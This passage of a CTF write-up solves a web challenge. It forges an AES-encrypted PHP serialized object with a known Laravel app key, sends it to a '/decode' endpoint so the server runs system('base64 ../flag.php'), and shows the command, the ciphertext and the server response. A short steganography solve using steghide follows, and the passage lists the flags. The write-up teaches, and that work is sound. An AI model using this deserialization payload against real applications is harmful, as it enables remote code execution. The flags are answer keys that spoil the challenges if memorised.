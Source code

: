 If we can create a serialized object with an `$inject` parameter that is an Array, we can eval php code of our choice. The 5th index must contain the code that should be evaled. 

I did this by opening an interactive session with php: `php -a`
```php
$key = "base64:Wkt8DOa9t16Z+DSLKsy+5r4S0aA9JmdItAk9//NiKu0=";
$iv = substr($key, 0, 16);

echo openssl_encrypt("O:29:\"App\\Http\\Middleware\\YourChain\":1:{s:6:\"inject\";a:6:{i:0;s:0:\"\";i:1;s:0:\"\";i:2;s:0:\"\";i:3;s:0:\"\";i:4;s:0:\"\";i:5;s:29:\"system('base64 ../flag.php');\";}}", "AES-256-CBC", $key, 0, $iv);
```

Which yields 
`6yjQqIXn0W0bR6EwHTW2NfGZUD4vr9E537p+861LxkPV8tNU63xRZz34KbAoOYNU/Z0SXAME/FlmW2Gpc14G/eXe+TngCovxh6lKt3I9ZmutmF0iLSRycW3X3xdse83uy7Hp3XSqh0Z20knHOqqi4KulAvtT1BbFDzwrNtstRGvciaSyqVgbbhtCIQe0lwyw2YZ8TkBKrdSefnNfBLFuzQ==`

We can send this encrypted text to the `/decode` endpoint to get our command executed!
I tried multiple commands before I finally found flag.php in a directory.

```shell
$ http GET "http://35.198.183.125:30278/decode/6yjQqIXn0W0bR6EwHTW2NfGZUD4vr9E537p+861LxkPV8tNU63xRZz34KbAoOYNU/Z0SXAME/FlmW2Gpc14G/eXe+TngCovxh6lKt3I9ZmutmF0iLSRycW3X3xdse83uy7Hp3XSqh0Z20knHOqqi4KulAvtT1BbFDzwrNtstRGvciaSyqVgbbhtCIQe0lwyw2YZ8TkBKrdSefnNfBLFuzQ==" Cookie:laravel_session=eyJpdiI6Ik5QMmtiajAxZ0JHTjdLTW5TcDV1Nmc9PSIsInZhbHVlIjoicEhIV3lKaEUrKzFnS1VDcmcyWDhPQ0ZVNlYzeFR3TkdBbjk4VW1NditnOHRxaEl5MU01YmUrMFpxRGZyc0lMTHBLYWRKOWNiMVpHaFEyUy9ac3FsSUFMeXRNZ2RZZmdNL3RnOGEyUFlpZHV2aGlOVXRpWm1nbTE5cDU1Wmd6YmsiLCJtYWMiOiJjNzZkZjcyNGIwNWIyYzZiNjcyNmQ1YTE2YWM0ZTE5N2JhZGE4NGVmYzE3ZGY3NDc0Zjg0MWY5NzRjMTQ2NTliIn0%3D

<?php if(false) { echo 'ctf{ea4941519e740783ebd819100ddc13486ae1e0abec2d0ef32bad5fc98edd16b6}'; } ?>%
```

FLAG: `ctf{ea4941519e740783ebd819100ddc13486ae1e0abec2d0ef32bad5fc98edd16b6}`


## Steganography
### stug-reference
The task description says:
```
Do you have your own stug pass hidden within?
```
We get a jpg image. The most obvious thing to try is *steghide*.
First I tried to use steghide without a password, but that did not work. Then I noticed the task description again: `stug pass hidden within`.

I then tried to extract using `stug` as password:

```shell
$ steghide extract -sf stug.jpg
Enter passphrase: 
wrote extracted data to "flag.txt".
```
flag.txt: `ctf{32849dd9d7e7b313c214a7b1d004b776b4af0cedd9730e6ca05ef725a18e38e1}`
